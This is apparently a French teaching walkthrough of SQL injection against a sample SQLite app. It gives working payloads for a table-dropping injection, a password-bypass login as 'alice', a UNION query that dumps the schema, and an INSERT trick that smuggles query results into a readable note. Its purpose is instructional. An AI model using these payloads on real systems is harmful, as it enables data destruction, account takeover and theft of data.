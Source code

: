 # Injections pour l'application exemple


## Base d'injection pour **batch mode**

Rend le SQL valide et permet d'injecter une autre requête :
- on n'a pas besoin que la requête d'origine fonctionne
- juste qu'elle soit syntaxiquement valide
- pour pouvoir exécuter notre code après
- par contre on est aveugle du résultat

### Concrètement
1. dans l'appli, choisissez connexion
2. dans le champ nom, tapez le SQL suivant
```sql
'; --
```
3. Complétez avec un mot de passe "toto"

La requête complète devient alors :
```sql
SELECT * FROM MUtilisateur WHERE nom = ''; --' AND motDePasse = 'toto'
```
- la première requête SQL est **SELECT * FROM MUtilisateur WHERE nom = '';**
- le "--" est un commentaire en SQL, donc tout ce qui suit est ignoré 
- on peut donc avoir quelque chose qui est du SQL valide
- on a créé un espace entre ; et -- pour pouvoir taper n'importe quelle commande SQL !

### Injection destructrice

1. dans l'appli, créez quelques comptes normalement (pour avoir des données)
2. vous pouvez aller regarder ce qu'il y a dedans avec DataGrip
3. dans l'appli, choisissez connexion
4. dans le champ nom, tapez le SQL suivant
```sql
';    DROP TABLE IF EXISTS MNote; DROP TABLE IF EXISTS MUtilisateur;    --
```
5. Complétez avec un mot de passe quelconque de 4 caractères ou plus

Le SQL devient :
```sql
SELECT * FROM MUtilisateur WHERE nom = '';    DROP TABLE IF EXISTS MNote; DROP TABLE IF EXISTS MUtilisateur;    --' AND motDePasse = 'toto'
```

On a donc :
- une première requête valide qui ne retourne rien, la fonction de l'application ne marchera pas, mais ce n'est pas important dans ce contexte
- la deuxième requête est notre réel objectif, elle va supprimer toutes les données
- le commentaire permet d’ignorer la fin de la première requête


## Modifier une requête légitime

On va essayer de se connecter en tant que n'importe quel utilisateur pour tromper le controle d'accès.

On voudrait se connecter en tant que "alice" sans connaitre le mot de passe.
1. dans l'appli, créez plusieurs comptes dont un "alice"
2. dans l'appli, on déconnecte puis on choisi connexion
3. dans le champ nom tape le SQL suivant
```sql
alice'; --
```
4. dans le mot de passe on tape ce qu'on veut

```sql
SELECT * FROM MUtilisateur WHERE nom = 'alice';--' AND motDePasse = 'toto'
```

En complétant la requête et en ignorant le test sur le mot de passe, on rentre dans n'importe quel compte.

## recuperer le resultat d'une requete

### Injection avec une union

Les injections précédentes mais pas de collecter de l'information. 

Une injection avec union permet de :
1. exécuter une sous-requête
2. prendre le résultat de cette sous-requête 
3. faire l'union avec le résultat de la requête d'origine
4. et du coup avoir dans notre entrée de BD le résultat de la sous-requête
5. si l'application nous affiche ensuite ce champ de donnée on a accompli
  - une technique qui permet de taper une commande
  - ensuite lire de résultat

Les conditions:
- il faut trouver une action SQL qui modifie la BD
- monter une union syntaxiquement correcte

Dans notre application, notre cible va être la création d'un compte.
```sql
bob', 'password') UNION SELECT (SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL),sqlite_version(); --
```
- ce que je veux exécuter c'est **(SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL)**
- ça me permet de voir le schéma de la base de données et donc toute sa structure pour pouvoir faire des requêtes plus précises
- le union permet de créer un autre tuple dans le résultat de la requête d'origine et de le faire créer
- si j'ai un moyen de voir ce résultat depuis l'application, j'ai gagné
- ici on va simplement demander la liste des utilisateurs.


### Attends mais il y a d'autres solutions pour ça non?

- si j'ai trouvé un spot d'injection, je peux exécuter n'importe quelle commande SQL
- je pourrais trouver une table que je vois ailleurs dans l'appli comme ici mes notes
- monter une base de requête SQL qui permet d'exécuter une commande, prendre le résultat et créer une note avec
- et hop je peux lire le résultat

#### Attaque

Etant donné une commande SQL X que je veux exécuter. Dans mon exemple, j'utiliserai:
```sql
(SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL)
```

Attaque pour la commande :
1. je me crée un compte comme d'habitude
2. en listant les utilisateurs, je retrouve mon **ID**, dans mon exemple on va dire que c'est 4
3. je crée un compte avec le nom
```sql 
alice','password'); INSERT INTO MNote (note, utilisateurID) VALUES((X)), ID);-- 
```
4. concretement pour mon exemple, ça donne
```sql
alice','password'); INSERT INTO MNote (note, utilisateurID) VALUES((SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL), 4);-- 
```
5. la création du compte a sans doute échoué, mais on s'en fout
6. en se connectant sur mon compte
7. je peux aller lire mes notes
8. le résultat de la requête sql est dans une note

